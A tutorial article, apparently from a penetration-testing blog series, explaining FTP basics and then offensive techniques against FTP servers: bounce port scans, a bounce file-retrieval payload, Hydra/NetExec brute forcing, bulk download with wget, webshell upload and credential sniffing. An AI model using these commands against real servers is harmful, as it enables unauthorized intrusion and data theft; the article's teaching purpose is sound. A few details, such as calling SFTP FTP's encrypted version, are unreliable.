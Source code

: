 ```yaml
---
title: “Intro to FTP”
summary: “FTP (File Transfer Protocol) is a protocol used for transferring files between computers on a network”
date: 2024-07-24
tag: FTP
---
```


FTP (File Transfer Protocol) is a protocol used for transferring files between computers on a network, this protocol has a client-server architecture using a server to serve files that can be accessed by N clients. By default, the information is transmitted in plain text, although there is an encrypted version of it called SFTP (Secure File Transfer Protocol).

<!-- more -->

Although there are implementations with a graphical interface, in this article we will make use of the FTP command line tool, which gives us a lot of flexibility when working with the protocol. In later articles we will explore the main client and server implementations, although in this one we will focus on explaining the basic concepts of the protocol, how to work with it and how to take advantage of some misconfigurations.

## Theory

### Communication channels

For FTP to work, two communication channels are required, one for sending commands and the other for data.

### Connection modes

#### Active

This is the default connection mode for FTP connections, in which two events occur:

- A command channel is established in the connection to the server between the server's command port (21 by default) and a port greater than 1023 on the client side (we will refer to this as P).
- Once the data connection is established, an attempt is made to open a connection from the server's data port (20 by default) to port P+1 on the client.

!!! note

    Active mode may present problems with client firewalls because it attempts to create a direct connection to a client-side port, which may be blocked by certain firewalls.

#### Passive

This mode arises as a solution to the problem of client firewalls, here the workflow is modified so that both the data connection and the client connection are initiated from the client, we can break it down into two events.

- A command channel is established on the server connection between the server command port (21 by default) and a port greater than 1023 on the client side (we will refer to this as P).
- Once the data connection is established a data connection is opened from port P+1 on the client to a port on the server data channel, this process is repeated for each file transfer occupying a different server port on each connection (this can be configured in most server side software) .

!!! note

    Passive mode requires the opening of a range of ports in the firewall, this can generate some security problems if this port opening is not configured correctly.

## FTP commands

```bash
CWD -> Changes the current directory to the specified one
DELE -> Deletes the specified file
EPRT -> Establish a socket for data connection
LIST -> List the files in the current directory
PASV -> Change mode to passive mode
PWD -> Displays the current directory 
RETR -> Download the specified file
```

## Anonymous login

There is an FTP configuration that allows the use of a login to share files for any user that requires it, in case this configuration is enabled a user could use anonymous as login name and any password to access the server as a user with low privileges, although in certain cases this can lead to compromise the entire system.

## FTP Bounce port scan

It is possible to abuse the PORT and ERPT commands to perform an open port scan via an FTP server.

### Nmap

```bash
nmap -b <name>:<pass>@<ftp_server> <victim>
```

### Hand-made

Once connected we can perform the port scan using the PORT and ERPT commands followed by a LIST command.

Here is an example for scanning port 9091 on host 10.10.10.14

```bash
PORT 10.10.10.14.14.0.9091
EPRT |2|10.10.10.14|9091||

LIST
```

If the response is a 150 the port is open, in case of receiving a 415 the port is closed.

## FTP Bounce file get

This attack allows an attacker to download files from an FTP server not accessible by the attacker, but which can be reached by an FTP server accessible by the attacker.

![Net Diagram](/assets/net_diagram.png)

This attack has the following prerequisites:

- Valid credentials for External FTP.
- Valid credentials for Internal FTP.
- Write access for External FTP.
- PORT command execution permissions on both External and Internal.

First of all we will deploy an FTP server on the attacker's machine, this server has to support passive mode.

Once deployed we will open a passive connection with the PASV command and tell it to save it with STOR output.ext .

Now we will create a file with the commands we want to launch against the second server, an example would be the following:

```bash
user ftp # User for the internal server
pass password # Password for the internal server
cwd /DIRECTORY
type i
port F,F,F,F,F,F,X,X #Our passive port
retr file.ext
quit
^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@ ... ^@^@^@^@
^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@ ... ^@^@^@^@
```

Now we upload it with PUT and from the external server we execute the following commands:

```bash
put payload
quote “port C,C,C,C,C,0,21” # IP of internal server
quote “retr payload”
```

After this we will have the file.ext file on our server as output.ext

## Brute force attack

Many FTP servers do not have protection against brute force attacks. Having a user or a list of them we can carry out a brute force attack with different credentials obtained from various sources, although there are several tools for this purpose, the two most common are NetExec and Hydra.  

### NetExec

```bash
nxc ftp IP -u userfile -p passwordfile
```

### Hydra

```bash
hydra -L userfile -P passwordfile ftp://IP
```

## Surprise backup

This is not an attack per se, but it is quite useful, as it allows us to download all accessible files from the server using a single command.

```bash
wget -r ftp://IP/dir/* --ftp-user=username --ftp-password=password
```

## FTP file upload to RCE

In certain circumstances, permission to upload files to the server along with other misconfigurations can lead to obtaining remote execution of commands on the server.

The most common case is the possibility of uploading files to be served by a web server, where we could upload a webshell interpretable by the server to obtain command execution.

## Sniffing credentials

Since FTP works by default in plain text, it is possible for an attacker on the same network to use a sniffer and capture both the credentials and the FTP conversation.

---

In the next article of this series on FTP we will discuss common implementation errors and some known vulnerabilities of some implementations of the protocol.
